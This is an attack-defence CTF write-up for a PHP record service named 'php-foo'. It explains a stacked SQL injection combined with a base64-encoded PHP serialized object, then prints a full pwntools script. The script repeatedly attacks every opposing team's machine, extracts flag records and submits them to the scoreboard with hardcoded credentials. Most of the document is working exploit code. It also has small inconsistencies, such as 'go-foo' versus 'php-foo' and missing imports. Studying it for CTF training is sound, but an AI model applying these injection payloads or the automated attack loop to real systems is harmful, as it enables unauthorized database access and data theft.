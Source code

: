 ##Challenge `php-foo`
===

# Application:

The application stores secret records with the following opitons:

```
    Welcome!
    You can do the following:
        0) encrypt
        1) decrypt
        2) store new record
        3) retrieve your record
        4) exit

    What do you want to do?
```

if we look into the code from `troll.php`, we see that messages wont be encrypted at all:
![not encrypted](not_crypted.png)

furthermore we see a possible injection in `crypto.php`
![not encrypted](injection.png)

# Exploit:

to exploit the vulernability, we decided to do a multistage payload.

1. Insert an entry of our liking with a primary key of our liking.
2. Get the primary key of the latest entry starting with "FLAG" and write it in the entry of step 1.
3. use the vlaue of entry created in step 1. and updated in step 2. as primary key to retreive the data.
4. submit the flag to the flagserver.

the injection strings will look like that:

```python
stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey
```

the stages need some additional wrapping which is done by the following function:

```python
def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input
```

in step 3, we actually have to somehow "serialize" the data
which we did with the following function:

```python
def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)
```

to not interfere with previous runs of the exploit or another instance of our exploit we generate a timestamp on our primary key

```python
_pkey = 're1n3r'+str(int(time.time()))
```


# Final exploit

```python
from pwn import *
import requests
import base64
import time
from requests.auth import HTTPBasicAuth
import itertools
import traceback
import random
context.log_level = 'info'

_pkey = 're1n3r'+str(int(time.time()))

stage1 = 'insert into record values("%s","foo","12");' % _pkey
stage2 = 'update record set record = (select identifier from record where record like "FLG%%" order by time desc limit 1) where identifier = "%s" ;' % _pkey
stage3 = 'select record from record where identifier = "%s"' % _pkey


def bake64(input):
    _size = len(input)
    temp = 'a:1:{i:0;O:6:"Record":1:{s:10:"identifier";s:%s:"%s";}}' % (_size,input)
    return base64.b64encode(temp)


def getStage(input):
    return "baar', 'foo'); %s ; insert into record values ('foobar6','foobar6"  % input


while True:
    resp_machines = requests.get('https://scoreboard.ctf.cinsects.de/ctf/targets/', auth=HTTPBasicAuth('Re1n3r', 'lolwut'),verify=False)
    data_machines = resp_machines.json()
    # specify service
    service_go = 'go-foo'

    # store all flags here
    flags = []
    test = data_machines[service_go].items()
    random.shuffle(test)
    # for each machine
    for team, value in test :
            ip = value[0]
            try:
                t = remote(ip, 1338,timeout=20)
                for limit in itertools.count():
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #insert cyber123
                        t.sendline(getStage(stage1))
                        t.recvuntil('What do you want to do?')
                        t.sendline('2')
                        t.recvuntil('add: ')
                        #get actual flag key and write it into cyber123 pkey
                        t.sendline(getStage(stage2))
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        r1 = t.recvuntil('identifier: ')
                        print r1
                        #retreive key from cyber123 pkey
                        t.sendline(bake64(_pkey))
                        print("stage 3:")
                        flagkey = t.recvline()
                        print("flagkey: %s" % flagkey)
                        flagkey = flagkey.replace('\n','').replace('\r','')
                        pprint(flagkey)
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        t.sendline(flagkey)
                        keys = t.recvuntil("Welcome")
                        keys = keys.split(":")[2].strip().replace('\n','').replace('\r','').replace('Welcome','')
                        print("keys: %r" % keys)
                        ##########
                        t.recvuntil('What do you want to do?')
                        t.sendline('3')
                        print("SENDLINE 3")
                        t.sendline(bake64(keys))
                        myflag = t.recvuntil("Welcome!")
                        print("WELCOME AGAIN")
                        print("flag: %r" % myflag)
                        t.close()
                        print("send flag: %r" % myflag)

                        mo = re.search(r'\b(FLG[0-9a-zA-Z]{30})\b', myflag)
                        if mo:
                            actual_flag = mo.group(0)
                            url = 'https://scoreboard.ctf.cinsects.de/ctf/submit_flag/'
                            resp_flags = requests.post(url, auth=HTTPBasicAuth('Re1n3r', 'lolwut'), json={'flags': [actual_flag]})
                            print(resp_flags.text)

            except Exception as e:
                #traceback.print_exc()
                print("shit... %s" % e )
                continue
    time.sleep(300)


```
